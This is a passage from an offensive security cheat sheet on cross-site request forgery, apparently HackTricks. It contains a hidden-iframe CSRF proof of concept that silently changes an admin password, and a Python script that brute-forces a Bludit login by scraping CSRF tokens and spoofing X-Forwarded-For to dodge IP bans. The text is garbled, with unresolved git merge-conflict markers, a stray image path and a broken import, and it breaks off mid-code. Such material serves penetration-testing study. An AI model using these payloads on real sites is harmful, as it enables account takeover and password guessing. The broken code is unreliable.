 ```markup
</script>
```

&lt;&lt;&lt;&lt;&lt;&lt;&lt; HEAD

### Make POST Form request invisible with invisible Iframe

```markup
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <iframe style="display:none" id="csrf-frame-invisible" name="csrf-frame-invisible"></iframe>
    <form action="https://example.com/admin/changepassword" method="POST" style="display:none" target="csrf-frame-invisible" name="csrf-form-invisible" id="csrf-form-invisible" >
      <input type="hidden" name="password" value="hacktricks" />
      <input type="hidden" name="password2" value="hacktricks" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

=======

> > > > > > > upstream/master
> > > > > > >
> > > > > > > ## CSRF Login Brute Force

The code can be used to Brut Force a login form using a CSRF token \(It's also using the header X-Forwarded-For to try to bypass a possible IP blacklisting\):

```python
import request
import re
import random

URL = "http://10.10.10.191/admin/"
PROXY = { "http": "127.0.0.1:8080"}
SESSION_COOKIE_NAME = "BLUDIT-KEY"
USER = "fergus"
PASS_LIST="./words"

def init_session():
    #Return CSRF + Session (cookie)
    r = requests.get(URL)
    csrf = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="([a-zA-Z0-9]*)"', r.text)
    csrf = csrf.group(1)
    session_cookie = r.cookies.get(SESSION_COOKIE_NAME)
    return csrf, session_cookie

def login(user, password):
    print(f"{user}:{password}")
    csrf, cookie = init_session()
    cookies = {SESSION_COOKIE_NAME: cookie}
    data = {
        "tokenCSRF": csrf,
        "username": user,
        "password": password,
        "save": ""
    }
    headers = {
```